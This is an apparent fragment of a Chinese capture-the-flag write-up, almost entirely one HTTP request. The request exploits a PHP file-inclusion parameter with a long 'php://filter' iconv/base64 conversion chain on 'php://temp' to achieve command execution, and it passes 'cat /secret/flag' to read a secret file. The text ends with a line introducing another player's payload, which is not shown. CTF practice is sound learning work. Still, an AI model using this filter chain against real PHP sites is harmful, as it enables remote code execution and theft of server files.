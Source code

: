 ```php
GET /t00llll.php?include_=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO-2022-KR.UTF16|convert.iconv.ISO-IR-139.UTF-16|convert.iconv.ISO-IR-157.ISO-IR-156|convert.iconv.WINDOWS-1258.ISO_6937|convert.iconv.KOI8-T.ISO-2022-JP-3|convert.iconv.CP874.ISO2022KR|convert.iconv.CSUNICODE.UTF-8|convert.iconv.OSF00010004.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=cat+/secret/flag HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

之前就非预期的一位师傅的payload如下：
